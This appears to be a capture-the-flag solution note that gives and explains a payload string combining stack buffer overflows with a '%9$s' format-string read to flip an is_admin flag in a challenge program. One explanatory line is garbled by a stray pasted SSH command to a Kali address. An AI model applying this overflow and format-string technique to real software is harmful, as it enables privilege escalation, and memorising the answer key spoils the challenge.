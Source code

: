 SOLUTION: AABBBBBBBB%9$sCCCCCCCCCCCCCC1
  (AA) -> overflows the option character variable
    * had to make this 2 otherwise the scanf would overflow the null
    terminator into pronouns variable and would make it an empty print,
    did not want to confuse CTFers.
  (BBBBBBBB) -> overflows pronouns variable to reach the username
  (%9$s) -> string formatter exploitssh kali@198.18.1.35

  (CCCCCCCCCCCCCC) -> overflows the username variable to reach is_admin
  (1) -> any non-zero byte to flip it to true

